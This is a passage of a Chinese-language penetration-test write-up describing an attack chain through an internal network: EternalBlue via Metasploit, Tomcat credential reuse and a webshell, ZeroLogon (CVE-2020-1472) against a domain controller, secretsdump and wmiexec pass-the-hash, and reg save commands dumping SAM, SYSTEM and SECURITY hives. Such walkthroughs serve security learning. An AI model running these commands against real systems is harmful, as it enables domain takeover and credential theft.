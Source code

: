 msf5 auxiliary(admin/smb/ms17_010_command) > set rhosts 10.10.74.128

rhosts => 10.10.74.128

可以看到这里已经执行到命令了，接着继续执行命令收集信息。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDsuZmCicAvUXj6AtxrzNEIw158QN6ZJhr2ktfedTFYnUNFQSXwBJlxPXqbB5QJro3tJI9x5IHXicicQ/640?wx_fmt=png)

10.10.74.128 这台机器的 tomcat 是爆破不了，但是通过之前爆破的密码，登陆进去了一个未爆破成功的 tomcat 里面，现在通过永恒之蓝进入进去了。就也是 10.10.74.128 这台机器里面找到了它的 tomcat 密码。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDsuZmCicAvUXj6AtxrzNEIwePH7RhRRiaZpP3UAX1AIribINw1MR9SR0p727aX5tPibCwkw7icWVI4tdA/640?wx_fmt=png)

接着就使用密码登陆进去之后再上传 webshell 即可控制这台机器了

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDsuZmCicAvUXj6AtxrzNEIwqGPweianE2b4ZwH54Cd4S1juPY9yic3rvXwDXko9uiaMHUfwzAOYXQLibw/640?wx_fmt=png)

ZeroLogon(CVE-2020-1472) 获取域控制器权限

接着对 10.10.8.0/24 网段进行扫描的时候发现了这个网段有机器开放了 88 端口，并且对 10.10.8.19 机器进行扫描之后它是一个域控制器。扫描结果看到，88 端口运行了 kerberos 的服务。对于 3389 端口信息的探测信息比较多，改机器所在域是 NetBIOS_Domain_Name: ADC

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDsuZmCicAvUXj6AtxrzNEIwCl1IEDDHhw0e7NiaLXQicNib2WGiaHsj3v2rEtEw6yzjX94DDiaM8Df1ZGQ/640?wx_fmt=png)

域控漏洞的话想起来今年爆出的 CVE-2020-1472 netlogon 漏洞。这里我使用检测工具进行检测发现这个 10.10.8.19 域控制器存在 CVE-2020-1472 netlogon 漏洞

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDsuZmCicAvUXj6AtxrzNEIwvD315qIETM1wb4b4kAwgsO7JR7zIC8kkUVeVFSZjZugZWK2mRVfyGg/640?wx_fmt=png)

接着使用 cve-2020-1472-exploit 来把域控制器的 域控用户密码重置为空。把域控用户密码重置为空的话就可以获取它里面的 hash 了

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDsuZmCicAvUXj6AtxrzNEIwGfeaibiavHOdZyFoDiaFSAxVMQGibibZk6SS4w7LWEpsOnw26ywWCRcvCWA/640?wx_fmt=png)

接着使用 secrtsdump.py 直接通过空密码的域控用户来 dump 域控制器里面的所有 hash 凭证和用户。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDsuZmCicAvUXj6AtxrzNEIweWgGqVMglD5kxCN0LPlfRk9mRcJnFwmMDliciaia3XczyMjOPfjK1tKwg/640?wx_fmt=png)

接着通过获取下来的 hash 通过 wmiexec.py 来进行横向登陆到域控制器中，可以看到这里已经获取了一个域控制器的 shell

 python3 wmiexec.py 域名 / administrador@10.10.8.19 -hashes  域控管理员的 hash

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDsuZmCicAvUXj6AtxrzNEIwU4TGSQH6yX1wDmUp5V941e4LrQzuFnHvctEVhNBmIQ1UxnwuVfyicwg/640?wx_fmt=png)

通过对这个域控制器的 DNS 指向可以知道这个域控制器应该是一个辅助域控制器。它的主要 DNS 还是 10.10.12.77 这台域控制器

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDsuZmCicAvUXj6AtxrzNEIwng8MV1hPvEDiciaU27xlmgSofC2ocVZVNrfnee7I3wgrCOHtGkfvGJNw/640?wx_fmt=png)

通过下面的命令导出目标的 hash。并且通过 wmiexec 下载到本地。

reg save HKLM\SYSTEM sys.hiv

reg save HKLM\SAM sam.hiv

reg save hklm\security security.hiv

get sys.hiv

get sam.hiv
